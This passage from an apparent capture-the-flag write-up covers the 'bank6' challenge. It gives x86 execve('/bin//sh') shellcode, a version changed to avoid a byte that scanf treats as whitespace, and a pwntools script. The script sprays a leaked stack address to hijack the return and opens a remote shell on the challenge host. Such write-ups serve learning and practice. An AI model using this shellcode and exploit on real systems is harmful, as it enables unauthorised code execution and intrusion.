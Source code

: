 ```asm
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 53                      push   ebx
11: 89 e1                   mov    ecx,esp
13: b0 0b                   mov    al,0xb
15: cd 80                   int    0x80
```

But we need to modify the shellcode, because the program use `scanf` function to get input, which will end the input string when it meets white spaces (the input stopped at 0x0b byte which is a "VT vertical tab"). So i did a few fix and the final shellcode will look like this:

```asm
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 53                      push   ebx
11: 89 e1                   mov    ecx,esp
13: b0 b0                   mov    al,0xb0
15: 2c a5                   sub    al,0xa5
17: cd 80                   int    0x80
```

Because the shellcode is 25 bytes long, i appended 3 more `\x90` (nop) byte before the shellcode to get stack dword aligned for stack spraying, finally, spray the return address which was leaked in the program: `[+] Here is a gift: 0xffa55cac`

Here is the final script:

```python
from pwn import *

shellcode = b'\x90'*3+b'\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x53\x89\xE1\xB0\xB0\x2C\xA5\xCD\x80'

#io = process('./bank6')
io = remote('61.28.237.24', 30207)
print(io.recvline())
stack_addr = int(io.recvline().split()[-1], 16)

payload = shellcode+ 259*p32(stack_addr)
print(payload)

print(io.recv())
pause()
io.sendline(payload)
io.interactive()
```
